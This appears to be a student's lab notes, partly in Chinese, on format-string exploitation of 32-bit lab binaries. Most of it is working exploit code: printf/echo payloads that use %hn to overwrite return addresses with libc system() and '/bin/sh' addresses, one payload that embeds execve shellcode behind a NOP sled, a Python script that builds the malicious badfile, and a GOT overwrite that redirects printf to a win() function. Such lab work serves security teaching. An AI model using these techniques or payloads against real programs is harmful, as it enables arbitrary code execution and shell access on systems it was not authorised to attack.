

```
echo $(printf "\x16\xf0\xff\xbf@@@@\x14\xf0\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input
```



```
echo $(printf "\x16\xF0\xFF\xBF@@@@\x14\xF0\xFF\xBF")%.8x%.8x%.8x%.8x%.56961x%hn%.57410x%hn > input

./prog1 < input | grep -a address
```





The address of the input array: 0xbfbe8bc4
The value of the frame pointer: 0xbfbe8ba8
The value of the return address(before): 0x080485b9

The value of the return address(after): 0x080485b9

**EBP的地址是0xbfbe8ba8





**注意到system()函数偏移为0x0003ad80，字符串“/bin/sh”偏移为0x0015ba3f



**我们有libc的加载基址      0xb7e0b000 

可以计算system函数地址为 

```
0xb7e0b000+0x0003ad80=0xb7e45d80
```

"/bin/sh"的地址为

```
0xb7e0b000+0x0015ba3f=0xb7f66a3f
```

```
0xb7e4 = 47076
0x5d80 = 23936
0xb7f6 = 47094
0x6a3f = 27199

23936 - 148 = 23788
27199 - 23936 = 3263
47076 - 27199 = 19877
47094 - 47076 = 18

system函数放入返回地址 

/bin/sh放入参数地址
```

- `0xb7da` = 47066
- `0x4da0` = 19872
- `0xb7ec` = 47084
- `0x582b` = 22571

echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > badfile

**EBP**的地址: 0xbfbe8ba8

**ret** = 0xbfbe8ba8+ 4 = 0xbfbe8bac

**参数位置** =0xbfbe8ba8 + 12 = 0xbfbe8bb4

```
echo $(printf "\xac\x8b\xbe\xbf@@@@\xb4\x8b\xbe\xbf@@@@\xae\x8b\xbe\xbf@@@@\xb6\x8b\xbe\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%23788x%hn%3263x%hn%19877x%hn%18x%hn > badfile


```

echo$(printf"\xae\xee\xff\xbf@@@@\xac\xee\xff\xbf")_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.49003x%hn_%.11500x%hn$(printf"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\x00") > badfile

```
#!/usr/bin/python3
import sys
N = 200
content = bytearray(0x90 for i in range(N))

# Put the address at the beginning
addr1 =  0xbfffefac
addr2 =  0xbfffefb4
addr3 =  0xbfffefae
addr4 =  0xbfffefb6

content[0:4] = addr1.to_bytes(4, byteorder='little')
content[4:8] = ("dead").encode('latin-1')
content[8:12] = addr2.to_bytes(4, byteorder='little')
content[12:16] = ("beef").encode('latin-1')
content[16:20] = addr3.to_bytes(4, byteorder='little')
content[20:24] = ("cafe").encode('latin-1')
content[24:28] = addr4.to_bytes(4, byteorder='little')
content[28:32] = ("babe").encode('latin-1')

C = 15

# Construct the format string
small1 = 0x5d80-28-C*8
large1 = 0x6a3f-0x5d80
small2 = 0xb7e4-0x6a3f
large2 = 0xb7f6-0xb7e4

s = "%.8x"*C+"%."+str(small1)+"x"+"%hn"+"%."+str(large1)+"x"+"%hn"+"%."+str(small2)+"x"+"%hn"+"%."+str(large2)+"x"+"%hn"

fmt = s.encode('latin-1')
content[28:28+len(fmt)] = fmt

# Write the content to badfile
file = open("input", "wb")
file.write(content)
file.close()

```

```
%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
```









080483a0 <printf@plt>:
 80483a0:	ff 25 0c a0 04 08    	jmp    *0x0804 a00c
 80483a6:	68 00 00 00 00       	push   $0x0
 80483ab:	e9 e0 ff ff ff       	jmp    8048390 <_init+0x28>


0804 850b <win>:

objdump -d ./prog3|grep win

0804850b <win>:

0804     2052

850b     34059

```
echo $(printf "\x0e\xa0\x04\x08@@@@\x0c\xa0\x04\x08")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%1920x%hn%32007x%hn> input
```

